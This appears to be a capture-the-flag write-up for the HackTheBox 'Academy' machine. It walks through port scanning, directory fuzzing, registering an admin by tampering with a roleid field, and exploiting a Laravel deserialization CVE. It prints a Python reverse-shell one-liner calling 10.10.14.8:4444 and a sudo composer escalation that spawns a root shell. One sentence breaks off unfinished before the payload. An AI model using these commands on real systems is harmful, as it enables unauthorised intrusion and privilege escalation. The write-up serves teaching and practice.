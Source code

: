 Academy
==========================================
Enumeration
--------------
Let's start with scanning open ports using Nmap
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG "Scan results")
We can see three open ports with SSH, HTTP and Mysqlx services  

We need to add academy.htb in /etc/host and then we can explore the web page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)

After register a new user we can see content of main page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20login.PNG)
There are nothing interesting on it

Using gobuster for directory bruteforce gave no results but wfuzz with following command showed admin.php page
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/wfuzz.PNG)

There is roleid parameter in registry form request. Some experiments with it let us register an administrator user.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Burp%20register.PNG)
****
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Adm%20register%20new.png)

Foothold
----------------------
Now we can login as created user on admin.php
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20louch%20panel.PNG)

There is interesting web page dev-staging-01.academy.htb, we can add it to /etc/host and check its content
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Admin%20panel.PNG)

After some search on the page i noticed "laravel.log" on exception message and then found CVE-2018-15133 that allows to execute code on a vulnerable laravel application 

There are several exploits for this CVE, i'll use this [python sctipt](https://github.com/aljavier/exploit_laravel_cve-2018-15133)
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel.PNG)
We need API_KEY to exploit it, luckily we can find it at the 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
